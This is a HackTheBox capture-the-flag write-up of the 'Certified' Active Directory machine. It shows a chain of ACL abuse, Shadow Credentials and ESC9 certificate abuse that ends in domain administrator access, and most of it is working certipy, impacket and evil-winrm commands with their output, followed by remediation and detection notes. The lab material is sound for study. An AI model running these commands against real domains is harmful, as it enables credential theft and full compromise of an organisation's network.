



# HackTheBox - Certified

**OS:** Windows Server 2022 (Active Directory)

Certified is a Windows Active Directory machine on `certified.htb` where starting credentials are provided. BloodHound maps a four-hop ACL chain: `judith.mader` holds WriteOwner over the Management group, whose GenericWrite over `management_svc` yields its NT hash via Shadow Credentials. `management_svc` holds GenericAll over `ca_operator`, which is exploited the same way. With ca_operator's hash, certipy identifies an ADCS template flagged ESC9 (no security extension). Spoofing ca_operator's UPN to `Administrator` before enrolling produces a certificate the KDC accepts as Administrator at auth time, handing over the domain.

| Field | Value |
|---|---|
| Platform | HTB |
| Target | `<target-ip> / domain controller` |
| Initial Access | Provided low-privilege domain credentials |
| Privilege Escalation | AD ACL chain, shadow credentials, and ESC9 certificate abuse |
| Final Access | Domain Administrator / full domain compromise |

---

## Attack Path

1. Recon identified the exposed services and separated useful attack surface from noise.
2. The first break was Provided low-privilege domain credentials.
3. Post-exploitation enumeration exposed AD ACL chain, shadow credentials, and ESC9 certificate abuse.
4. The final privileged context was reached and the required proof was captured.

---

## Recon

Starting credentials: `judith.mader:<redacted-password>`

Standard Windows DC port profile. Nothing unusual beyond port 5985 (WinRM) being open.

| Port | Service | Notes |
|---|---|---|
| 53 | DNS | certified.htb |
| 88 | Kerberos | |
| 135 / 139 | MSRPC / NetBIOS | |
| 389 / 636 / 3268 / 3269 | LDAP | AD LDAP and Global Catalog |
| 445 | SMB | |
| 464 | kpasswd5 | |
| 5985 | WinRM | Used for shells |
| 9389 | ADWS | AD Web Services |

The DC clock was ahead by approximately seven hours. Kerberos rejects authentication when client and server clocks differ by more than five minutes, so the offset had to be fixed before any Kerberos operations.

```
┌──(v0idravl㉿kali)-[~/HTB/certified]
└─$ sudo timedatectl set-ntp false
┌──(v0idravl㉿kali)-[~/HTB/certified]
└─$ sudo ntpdate <target-ip>
2026-05-23 08:36:01.491171 (-0700) +25206.279846 +/- 0.114108 <target-ip> s1 no-leap
CLOCK: time stepped by 25206.279846
```

---

## Enumeration

### Domain Users

`ldapdomaindump` pulled a full user list with judith's credentials:

```
ldapdomaindump -u 'certified.htb\judith.mader' -p <redacted-password> \
  --no-grep -o loot/ldapdomaindump ldap://<target-ip>
```

Users: `Administrator`, `Guest`, `krbtgt`, `judith.mader`, `ca_operator`, `management_svc`, `gregory.cameron`, `harry.wilson`, `alexander.huges`

### Kerberoasting

`management_svc` had a registered SPN (`certified.htb/management_svc.DC01`):

```
┌──(v0idravl㉿kali)-[~/HTB/certified]
└─$ impacket-GetUserSPNs certified.htb/judith.mader:<redacted-password> -dc-ip <target-ip> -request

ServicePrincipalName               Name            MemberOf
---------------------------------  --------------  ------------------------------------------
certified.htb/management_svc.DC01  management_svc  CN=Management,CN=Users,DC=certified,DC=htb

$krb5tgs$23$*management_svc$CERTIFIED.HTB$...[snip]...
```

Hashcat against rockyou did not crack it. `management_svc` is parked for now.

---

## BloodHound Analysis

Loading the collected data into BloodHound revealed the full attack path.

**Screenshot 1** shows the complete chain at a glance: `judith.mader` has WriteOwner over the Management group, which holds GenericWrite over `management_svc`, which holds GenericAll over `ca_operator`.



**Screenshot 2** isolates the first edge. BloodHound's pathfinding from `judith.mader` to the Management group confirms the WriteOwner relationship. The Members panel shows `management_svc` as the sole member of Management, and `management_svc` had a Kerberoastable SPN.



**Screenshot 3** shows the downstream edges. `management_svc` is a member of the Remote Management Users group (WinRM access) and holds GenericAll over `ca_operator`, giving full control over that account.



The path: WriteOwner over Management -> get GenericWrite over `management_svc` -> get GenericAll over `ca_operator` -> ADCS abuse.

---

## Privilege Escalation

### Step 1: WriteOwner to Group Membership

**Take ownership of the Management group.** The Management group was owned by Domain Admins. WriteOwner lets judith.mader reassign that ownership to herself:

```
┌──(v0idravl㉿kali)-[~/HTB/certified]
└─$ impacket-owneredit -action write -new-owner judith.mader -target management \
    certified.htb/judith.mader:<redacted-password> -dc-ip <target-ip>

[*] Current owner information below
[*] - SID: S-1-5-21-729746778-2675978091-3820388244-512
[*] - sAMAccountName: Domain Admins
[*] - distinguishedName: CN=Domain Admins,CN=Users,DC=certified,DC=htb
[*] OwnerSid modified successfully!
```

**Grant WriteMember rights on the group.** As the new owner, judith can modify the group's DACL. Granting `WriteMembers` is sufficient to add accounts:

```
┌──(v0idravl㉿kali)-[~/HTB/certified]
└─$ impacket-dacledit -action write -rights WriteMembers -principal judith.mader \
    -target Management certified.htb/judith.mader:<redacted-password> -dc-ip <target-ip>

[*] DACL backed up to dacledit-20260525-051933.bak
[*] DACL modified successfully!
```

**Add judith to the Management group.** Group membership is what actually grants the GenericWrite edge over `management_svc`:

```
┌──(v0idravl㉿kali)-[~/HTB/certified]
└─$ net rpc group addmem Management judith.mader \
    -U "certified.htb/judith.mader%<redacted-password>" -S <target-ip>

┌──(v0idravl㉿kali)-[~/HTB/certified]
└─$ net rpc group members Management \
    -U "certified.htb/judith.mader%<redacted-password>" -S <target-ip>
CERTIFIED\judith.mader
CERTIFIED\management_svc
```

---

### Step 2: Shadow Credentials against management_svc

The Management group holds GenericWrite over `management_svc`. GenericWrite includes write access to `msDS-KeyCredentialLink`, which is all that Shadow Credentials requires.

Shadow Credentials works by adding a Key Credential (a certificate/key pair) to the target account's `msDS-KeyCredentialLink` attribute. The attacker then authenticates as the target using PKINIT with that key pair. The KDC issues a TGT, and from that TGT the NT hash can be retrieved via U2U (User-to-User) Kerberos. Certipy's `shadow auto` handles the full flow and restores the original key credentials on completion.

```
┌──(v0idravl㉿kali)-[~/HTB/certified]
└─$ certipy-ad shadow auto -username judith.mader@certified.htb -password <redacted-password> \
    -account management_svc -target certified.htb -dc-ip <target-ip>

[*] Targeting user 'management_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '<redacted-32-hex>'
[*] Adding Key Credential with device ID '<redacted-32-hex>' to the Key Credentials for 'management_svc'
[*] Successfully added Key Credential with device ID '<redacted-32-hex>' to the Key Credentials for 'management_svc'
[*] Authenticating as 'management_svc' with the certificate
[*] Using principal: 'management_svc@certified.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'management_svc.ccache'
[*] Trying to retrieve NT hash for 'management_svc'
[*] Restoring the old Key Credentials for 'management_svc'
[*] Successfully restored the old Key Credentials for 'management_svc'
[*] NT hash for 'management_svc': <redacted-nt-hash>
```

`management_svc` is a member of Remote Management Users, so pass-the-hash directly into WinRM works:

```
┌──(v0idravl㉿kali)-[~/HTB/certified]
└─$ evil-winrm -i <target-ip> -u management_svc -H <redacted-nt-hash>

*Evil-WinRM* PS C:\Users\management_svc\Documents> whoami ; hostname ; type ../Desktop/user.txt
certified\management_svc
DC01
<redacted-32-hex>
```

---

### Step 3: Shadow Credentials against ca_operator

`management_svc` holds GenericAll over `ca_operator`. GenericAll is a superset of GenericWrite, so Shadow Credentials applies here too:

```
┌──(v0idravl㉿kali)-[~/HTB/certified]
└─$ certipy-ad shadow auto -username management_svc@certified.htb \
    -hashes :<redacted-nt-hash> \
    -account ca_operator -target certified.htb -dc-ip <target-ip>

[*] Targeting user 'ca_operator'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '<redacted-32-hex>'
[*] Successfully added Key Credential with device ID '<redacted-32-hex>' to the Key Credentials for 'ca_operator'
[*] Authenticating as 'ca_operator' with the certificate
[*] Using principal: 'ca_operator@certified.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Trying to retrieve NT hash for 'ca_operator'
[*] Restoring the old Key Credentials for 'ca_operator'
[*] Successfully restored the old Key Credentials for 'ca_operator'
[*] NT hash for 'ca_operator': <redacted-nt-hash>
```

`ca_operator` had no WinRM access. Running certipy with its credentials revealed the ADCS angle.

---

### Step 4: ESC9 - Certificate Template Without Security Extension

```
┌──(v0idravl㉿kali)-[~/HTB/certified]
└─$ certipy-ad find -vulnerable -u ca_operator \
    -hashes :<redacted-nt-hash> -dc-ip <target-ip> -stdout
```

One template flagged:

```
Certificate Authorities
  0
    CA Name                             : certified-DC01-CA
    DNS Name                            : DC01.certified.htb
    ...
    User Specified SAN                  : Disabled

Certificate Templates
  0
    Template Name                       : CertifiedAuthentication
    Display Name                        : Certified Authentication
    Enabled                             : True
    Client Authentication               : True
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectAltRequireUpn
                                          SubjectRequireDirectoryPath
    Enrollment Flag                     : PublishToDs
                                          AutoEnrollment
                                          NoSecurityExtension      <-- key flag
    Extended Key Usage                  : Server Authentication
                                          Client Authentication
    Permissions
      Enrollment Rights                 : CERTIFIED.HTB\operator ca
                                          CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
    [+] User Enrollable Principals      : CERTIFIED.HTB\operator ca
    [!] Vulnerabilities
      ESC9                              : Template has no security extension.
```

`ca_operator` is a member of the `operator ca` group, so it has enrollment rights for this template.

#### What ESC9 requires

ESC9 was published by SpecterOps in their ADCS research series and is implemented in Certipy 4.0+. Three conditions must hold simultaneously:

1. **CT_FLAG_NO_SECURITY_EXTENSION (0x80000)** is set in the template's `msPKI-Enrollment-Flag`. Certipy surfaces this as `NoSecurityExtension` in the Enrollment Flag field.

2. **Client Authentication EKU** is present. The certificate must be usable for Kerberos authentication (PKINIT).

3. **GenericWrite (or higher) over an enrolling account.** The attacker must be able to modify the target account's `userPrincipalName` attribute.

Normally, when a certificate is issued, the CA embeds the enrolling account's `objectSid` in a security extension (OID `1.3.6.1.4.1.311.25.2`, also referred to as `szOID_NTDS_CA_SECURITY_EXT`). When the KDC processes a PKINIT authentication, it resolves the UPN from the certificate to find the AD account, then cross-checks that account's SID against the SID in the security extension. The two must match. This binding is what makes UPN changes harmless after the fact: even if someone swaps the UPN, the SID in the cert pins it to the original account.

When `CT_FLAG_NO_SECURITY_EXTENSION` is set, the CA skips the SID embedding entirely. Certipy signals this with `Certificate has no object SID` on the issued certificate. With no SID to check, the KDC falls back to looking up whatever UPN is in the certificate at authentication time. If that UPN resolves to Administrator, the KDC issues a TGT for Administrator.

#### Exploitation

**Modify ca_operator's UPN to Administrator.** This is done as `management_svc`, which has GenericAll (includes write over UPN) on `ca_operator`:

```
┌──(v0idravl㉿kali)-[~/HTB/certified]
└─$ certipy-ad account update -u management_svc \
    -hashes :<redacted-nt-hash> \
    -user ca_operator -upn Administrator -dc-ip <target-ip>

[*] Updating user 'ca_operator':
    userPrincipalName                   : Administrator
[*] Successfully updated 'ca_operator'
```

**Request the certificate as ca_operator.** The CA issues it with UPN `Administrator` since that is what the account's UPN field contains at enrollment time. No SAN is supplied because `Enrollee Supplies Subject` is false; the CA pulls the UPN from the directory:

```
┌──(v0idravl㉿kali)-[~/HTB/certified]
└─$ certipy-ad req -u ca_operator -hashes :<redacted-nt-hash> \
    -ca certified-DC01-CA -template CertifiedAuthentication -dc-ip <target-ip>

[*] Requesting certificate via RPC
[*] Request ID is 9
[*] Successfully requested certificate
[*] Got certificate with UPN 'Administrator'
[*] Certificate has no object SID
[*] Saving certificate and private key to 'administrator.pfx'
```

`Certificate has no object SID` confirms the template's `NoSecurityExtension` flag is in effect.

**Restore ca_operator's UPN.** The UPN must be changed back before authenticating with the certificate. At auth time, the KDC resolves the UPN `Administrator` from the cert and needs to find a valid Administrator account, not two accounts both claiming that UPN:

```
┌──(v0idravl㉿kali)-[~/HTB/certified]
└─$ certipy-ad account update -u management_svc \
    -hashes :<redacted-nt-hash> \
    -user ca_operator -upn ca_operator@certified.htb -dc-ip <target-ip>

[*] Updating user 'ca_operator':
    userPrincipalName                   : ca_operator@certified.htb
[*] Successfully updated 'ca_operator'
```

**Authenticate with the certificate to recover Administrator's hash:**

```
┌──(v0idravl㉿kali)-[~/HTB/certified]
└─$ certipy-ad auth -pfx administrator.pfx -dc-ip <target-ip> -domain certified.htb

[*] Certificate identities:
[*]     SAN UPN: 'Administrator'
[*] Using principal: 'administrator@certified.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@certified.htb': <redacted-32-hex>:<redacted-nt-hash>
```

---

### Shell as Administrator

```
┌──(v0idravl㉿kali)-[~/HTB/certified]
└─$ evil-winrm -i <target-ip> -u Administrator -H <redacted-nt-hash>

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami ; hostname ; type ../Desktop/root.txt
certified\administrator
DC01
<redacted-32-hex>
```

---

## Remediation

- Remove or harden the specific exposure used for initial access: Provided low-privilege domain credentials.
- Fix the privilege boundary that enabled escalation: AD ACL chain, shadow credentials, and ESC9 certificate abuse.
- Rotate credentials observed or replayed during the chain and search for reuse on adjacent systems.
- Validate the fix by safely replaying the enumeration steps that originally exposed the weakness.
- Audit tier-0 rights and certificate/ACL delegation with BloodHound or equivalent tooling.

## Summary

**Key takeaway:** Certified chains ACL abuse with ADCS ESC9. Neither piece alone reaches domain admin: the ACL chain is blocked by an uncrackable Kerberoast hash, and ESC9 requires GenericWrite over an enrolling account. The combination makes both exploitable. ESC9 is easy to miss during ADCS review because the template itself does not expose SAN control (Enrollee Supplies Subject is false), so it doesn't surface with the same obvious signal as ESC1. The `NoSecurityExtension` enrollment flag is the indicator, and it requires the attacker to already control an account with enrollment rights and write access over that account's UPN.

---

## Root Cause

The demonstrated path worked because the target exposed a concrete bridge from reconnaissance to execution: Provided low-privilege domain credentials. The chain became critical when AD ACL chain, shadow credentials, and ESC9 certificate abuse converted that foothold into Domain Administrator / full domain compromise.

## Impact

Successful exploitation reached Domain Administrator / full domain compromise. That access is enough to read sensitive files, execute commands in the privileged context, collect credentials, and use the host or domain position as a pivot if similar trust relationships exist elsewhere.

## Detection Opportunities

- Alert on suspicious access patterns against the service that enabled initial access.
- Correlate successful authentication, process creation, and privilege-boundary events after enumeration activity.
- Monitor for the specific escalation signal: AD ACL chain, shadow credentials, and ESC9 certificate abuse.
- Collect and review Kerberos, LDAP, certificate, and directory-replication events for nonstandard principals.

## Lessons Learned

- The useful lesson is the connection between Provided low-privilege domain credentials and AD ACL chain, shadow credentials, and ESC9 certificate abuse, not just the individual command that worked.
- Preserve the observations that explain why each pivot made sense.
- Write remediation from the root cause of each step so the report reads like both an operator narrative and a defender action plan.
